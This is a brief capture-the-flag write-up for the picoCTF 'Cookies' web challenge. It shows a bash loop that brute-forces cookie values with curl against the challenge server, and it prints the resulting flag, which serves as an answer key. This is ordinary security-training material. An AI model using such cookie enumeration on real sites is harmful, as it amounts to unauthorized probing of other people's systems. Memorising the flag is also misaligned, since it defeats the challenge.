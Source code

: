 **Descripcion**

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)
**Solucion**

```bash

┌──(espasandia24㉿kali)-[~]
└─$ for i in {0..25}; do curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
                                                                                                                                                                       
┌──(espasandia24㉿kali)-[~]
└─$ 


```
picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}

**Notas Adicionales**